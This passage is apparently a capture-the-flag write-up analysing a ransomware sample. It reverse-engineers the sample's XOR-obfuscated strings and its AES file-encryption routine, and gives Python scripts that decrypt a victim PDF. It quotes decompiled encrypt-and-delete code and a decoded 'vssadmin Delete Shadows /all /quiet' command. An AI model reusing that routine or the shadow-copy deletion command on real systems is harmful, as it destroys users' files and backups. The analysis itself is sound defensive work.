      CryptoStream cryptoStream = new CryptoStream((Stream) fileStream1, rijndaelManaged.CreateEncryptor(), CryptoStreamMode.Write);
      FileStream fileStream2 = new FileStream(filename, FileMode.Open);
      byte[] buffer2 = new byte[1024];
      try
      {
        int count;
        while ((count = fileStream2.Read(buffer2, 0, buffer2.Length)) > 0)
          cryptoStream.Write(buffer2, 0, count);
        fileStream2.Close();
      }
      catch (Exception ex)
      {
        return;
      }
      finally
      {
        cryptoStream.Close();
        fileStream1.Close();
      }
      File.Delete(filename);
    }
  }
}
```
(Some functions name comes from the encrypted strings inside the binary)


So the cryptor takes 1 argument, `Encryptor.xor_key = Encoding.UTF8.GetBytes(args[0]);`, used to xored strings and the encryption key.
The encryption key is derived from the xor key and the guid created by the cryptor with PBKDF2 (rfc2898DeriveBytes Windows equivalent).
And we have already seen a GUID in the communication between the malware and the C&C : `d31dd518-8614-4162-beae-7a5a2ad86cc6`.


Files are encrypted with AES256 CFB (key size is 256bits) and padded with PKCS7.
The first bytes of the encrypted file are the key's salt (`fileStream1.Write(buffer1, 0, buffer1.Length);`). And its length is 32 bytes.


Ok, now we have to find the xor key.


### 4: Find the xor key


There are 2 ways:


- the hard way (used during the ctf) where you have to follow the key set by the C&C in the malware
- the "guessing" way where you use the base64 string that you know (or can know with luck)


#### The "guessing" way


We know that the `.ghost` extension is added to the filename after encryption.
And in this line, `FileStream fileStream1 = new FileStream(filename + Encryptor.xor("bzQWGBlT"), FileMode.Create);`  where filestream1 is the target file of the encryption function, the filename is built with `Encryptor.xor("bzQWGBlT")`.


So, the key is `b64.decode("bzQWGBlT") ^ ".ghost"`.
Great, we have just recovered 6 bytes of the xor_key !


Use them on other encoded strings and try to guess the cleartext of these strings. Some of them are really easy like `HKEY_CURRENT_USER` or `UpdateKey` (which is in the communication)


Once you have recovered the key (we need 32 bytes), you can use it to decrypt the file.


#### The hard way


> :warning: **From here, the functions will have been renamed according to their usage.** The reverse is not complicated, and it is easy to make good guesses by associating the strings found in the binary.


The 1st step is to find where the cryptor is executed in the malware.


You can start with `main.rzSF37vf8khc8Vye` function which is a command launcher (notice the `wr` or `rr` in the communication) and search for the `la` command.


```golang
void main.rzSF37vf8khc8Vye
               (undefined8 param_1,undefined **param_2,undefined (*param_3) [16],
               undefined (*param_4) [16])


{
  //[...]
    if ((local_res10 == 2) && (*local_res8 == 0x6672)) {
      main.ReadFile(local_res8,param_2,param_3,param_4);
    }
    else {
      if ((local_res10 == 2) && (*local_res8 == 0x616c)) { //<--- HERE
        main.execute_exe(local_res8,param_2,param_3,param_4);
      }
```


```c
    main.receiv_data(local_res10,param_2,param_3,param_4,in_stack_ffffffffffffff80);
    ppuVar2 = in_stack_ffffffffffffff80;
    main.read_register(in_stack_ffffffffffffff78,in_stack_ffffffffffffff80,param_3,param_4);
    puVar3 = (undefined2 *)0x2;
    github.com/ropnop/go-clr.ExecuteByteArray
              (0x99,2,in_stack_ffffffffffffff70,(char)in_stack_ffffffffffffff78,
               (char)in_stack_ffffffffffffff80,0xd0,1,1);
    runtime.newobject(0);
    *puVar3 = 0x6b6f;
    main.send_data(local_res10,ppuVar2,param_3,param_4,2);
    return;
```


Notice the `github.com/ropnop/go-clr.ExecuteByteArray` call inside the function `execute_exe` (my name of course)


The argument comes from the registry.


But if you stop your analysis here, you will make an error because there is another encryption inside this function !


```c
      // [...]
      syscall.RegCloseKey((char)local_68);
      // [...]
      runtime.makeslice(lVar2,local_68,param_3,param_4);
      // [...]
      while( true ) {
        if ((longlong)local_60 <= (longlong)ppuVar4) {
          runtime.slicebytetostring
                    (local_60,local_10,(size_t)param_3,(char)param_4,
                     (undefined1  [16])
                     CONCAT79(in_stack_ffffffffffffff61,
                              CONCAT18(in_stack_ffffffffffffff60,
                                       CONCAT44(in_stack_ffffffffffffff5c,uVar5))));
          return;
        }
        if (local_78 <= ppuVar4) break;
        param_4 = (undefined (*) [16])(ulonglong)*(byte *)((longlong)local_10 + (longlong)ppuVar4);
        bVar1 = *(byte *)((longlong)ppuVar4 + local_18) ^
                *(byte *)((longlong)local_10 + (longlong)ppuVar4);
        param_3 = (undefined (*) [16])(ulonglong)bVar1;
        *(byte *)(CONCAT44(in_stack_ffffffffffffff5c,uVar5) + (longlong)ppuVar4) = bVar1;
        ppuVar4 = (undefined **)((longlong)ppuVar4 + 1);
      }
```


Take the line : ` bVar1 = *(byte *)((longlong)ppuVar4 + local_18) ^ *(byte *)((longlong)local_10 + (longlong)ppuVar4);`
The value of the register is xored with another value.


To find it, you have to go start of function in assembly.





This string `2c3e19155e723d23130029681e17074e200435484f5f7c24223556166f18342817185f4c` is the key because the other strings are related to the registry (`= "Software\\Microsoft\\Windows\\CurrentVersion\\WindowsUpdate` and `Service`).
You can find the register value inside the communication where the C&C writes a value in registry:
```
----------------------
wr
----------------------
Service
----------------------
mmgb4UNqb3JWGZm7n7Gt9kTtBm6w9pbVWuah
----------------------
```


We have everything to write a decryptor with the pdf (and the base64 strings if you take the hard path)


### 5: Decrypt everything !!!!


Decrypt the base64 strings :


```python
from base64 import b64decode as b64d
from binascii import hexlify as hex, unhexlify as unhex


service_xor_key = unhex(b"2c3e19155e723d23130029681e17074e200435484f5f7c24223556166f18342817185f4c")
service_key = b"mmgb4UNqb3JWGZm7n7Gt9kTtBm6w9pbVWuah"


key = ''.join([chr(service_key[i] ^ service_xor_key[i]) for i in range(len(service_key))]).encode('latin1')
print(hex(key))


def decode(input):
  res = ""
  for i in range(len(input)):
    res += chr(input[i] ^ key[i%len(key)])
  print(res)
  return res


decode(b64d("HSoRAhh4Fz0SRg5aNzkZ"))
decode(b64d("CRg7LjVkJgAjdi1rBhg5PBw="))
decode(b64d("HQARER5QEiAUby5WOj8FCiFVBmAhXUY0Dy8TPRUdJAwlA0pyJCENHgVJLwUYXQdQLj4/CSpSBlk="))
decode(b64d("FCMaFh5CODcI"))
decode(b64d("Ij4aWQ9fFg=="))
decode(b64d("bjBeARlUEjYcWg0RPDUPWQpWHlkCUQgDCDkEDiEbdlEhAVIEbiILHg9T"))
decode(b64d("bzQWGBlT"))
```
Output:
```
$ python solve.cryptor.py
b'41537e776a2773527133633f594d6a794e33723c76342850605860615668567e406d3e24'
\your_documents
HKEY_CURRENT_USER
\Software\Microsoft\Windows\CurrentVersion\WindowsUpdate
UpdateKey
cmd.exe
/c vssadmin.exe Delete Shadows /all /quiet
.ghost
```


Decrypth the pdf :


```python
from Crypto.Protocol.KDF import PBKDF2
from Crypto.Hash import SHA1
from Crypto.Random import get_random_bytes
from base64 import b64decode as b64d
from binascii import hexlify as hex, unhexlify as unhex
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad


service_xor_key = unhex(b"2c3e19155e723d23130029681e17074e200435484f5f7c24223556166f18342817185f4c")
service_key = b"mmgb4UNqb3JWGZm7n7Gt9kTtBm6w9pbVWuah"


key = ''.join([chr(service_key[i] ^ service_xor_key[i]) for i in range(len(service_key))]).encode('latin1')


def decode(input):
    res = ""
    for i in range(len(input)):
        res += chr(input[i] ^ key[i%len(key)])
    return res


password = b'd31dd518-8614-4162-beae-7a5a2ad86cc6'
password = decode(password).encode('latin1')


with open("Confidential.pdf.ghost","rb") as f:
    enc_data = f.read() 


salt = enc_data[:32]
enc_data = enc_data[32:]


keys = PBKDF2(password, salt, dkLen=48, count=50000)
key = keys[:32]
iv = keys[32:]


print("Key:",hex(key))
print("IV:",hex(iv))


cipher = AES.new(key, AES.MODE_CFB, iv=iv,segment_size=128)
dec_data = cipher.decrypt(enc_data)


with open("Confidential.pdf","wb") as f:
    f.write(dec_data)
```





Finish !


